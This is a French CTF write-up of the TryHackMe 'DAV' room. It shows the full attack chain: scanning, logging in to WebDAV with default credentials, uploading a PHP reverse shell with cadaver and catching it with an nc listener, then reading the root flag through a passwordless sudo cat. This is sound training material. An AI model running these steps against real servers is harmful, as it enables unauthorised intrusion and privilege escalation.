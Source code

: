 ```yaml
---
title: DAV (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Webdav]
style: border
color: thm
comments: false
description: Voilà ce que peut arriver si on conserve les identifiants par défaut
modified: 18/03/2025
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/bsidesgtdav>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Analyse du site](#2-analyse-du-site)
* [3. Exploitation de Webdav](#3-exploitation-de-webdav)
* [4. Exploration du serveur](#4-exploration-du-serveur)
* [5. Élévation de privilèges](#5-élévation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.157.86
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 15:26 CEST
Nmap scan report for 10.10.157.86
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
{% endcapture %}
{% include elements/spoil.html %}

Le scan {% include dictionary.html word="NMAP" %} indique uniquement un serveur Apache présent sur le port 80.

## 2. Analyse du site

{% include elements/figure_spoil.html image="/images/THM/20240901/VirtualBox_Kali Hack_01_09_2024_15_29_16.png" caption="Première connexion" %}

A première vue, il ne s'agit que de la page par défaut que nous pouvons obtenir dès l'installation d'Apache.

Nous lançons un scanner {% include dictionary.html word="gobuster" %} et nous observons une page `webdav` qui nécessite une authentification (Status: 401).

```bash
gobuster dir -u http://10.10.157.86 -w /usr/share/wordlists/dirb/common.txt -x php,html -b "403,404"
```

{% capture spoil %}

\===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
\===============================================================
[+] Url:                     http://10.10.157.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
\===============================================================
Starting gobuster in directory enumeration mode
\===============================================================
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
Progress: 13842 / 13845 (99.98%)
\===============================================================
Finished
\===============================================================
{% endcapture %}
{% include elements/spoil.html %}

A la recherche d'identifiants par défaut sur Google, nous arrivons sur ce [blog](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) indiquant `wampp:xampp`. Le test est concluant, nous avons accès à l'outil avec ces identifiants.

{% include elements/figure_spoil.html image="/images/THM/20240901/Capture_ecran_2024-09-01_webdav.png" caption="Accès à Webdav" %}

## 3. Exploitation de Webdav

En parcourant le site [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver), nous avons connaissance de l'outil `cadaver` permettant de téléverser des fichiers sur Webdav. Nous tenterons d'ajouter le {% include dictionary.html word="reverse-shell" %} {% include dictionary.html word="PHP" %} mis à disposition sur le [Github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Nous avons pu téléverser notre {% include dictionary.html word="reverse-shell" %}.

```bash
cadaver http://10.10.157.86/webdav
Authentication required for webdav on server `10.10.157.86':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> put php-reverse-shell.php 
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
        php-reverse-shell.php               5492  Sep  1 16:05
```

Nous préparons un terminal en écoute sur le port indiqué dans le fichier {% include dictionary.html word="PHP" %}, puis nous cliquons sur le lien qui est apparu dans le répertoire Webdav.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.157.86] 45450
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:09:19 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La manipulation a fonctionné. Nous avons un accès à la machine.

## 4. Exploration du serveur

Nous commençons par améliorer le reverse shell obtenu afin de simplifier la navigation.

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Nous constatons que le user `www-data` a accès aux répertoires des utilisateurs "merlin" et "wampp"

```bash
ls -hAl /home
total 8.0K
drwxr-xr-x 4 merlin merlin 4.0K Aug 25  2019 merlin
drwxr-xr-x 2 wampp  wampp  4.0K Aug 25  2019 wampp
```

Le répertoire de merlin contient le flag utilisateur, et celui-ci est lisible par tout le monde.

```bash
cd /home/merlin

ls -hAl
total 36K
-rw------- 1 merlin merlin 2.4K Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3.7K Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4.0K Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4.0K Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

cat user.txt
449b40[...expurgé...]d66d2a
```

## 5. Élévation de privilèges

Nous recherchons à présent le moyen d'obtenir les droits root sur la machine.

En vérifiant les droits {% include dictionary.html word="sudo" %} de l'utilisateur www-data, nous constatons qu'il est habilité à utiliser la commande `/bin/cat` sans mot de passe.

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Nous avons donc la possibilité de lire le contenu du flag root.

```bash
sudo /bin/cat /root/root.txt
101101[...expurgé...]f7afa5
```
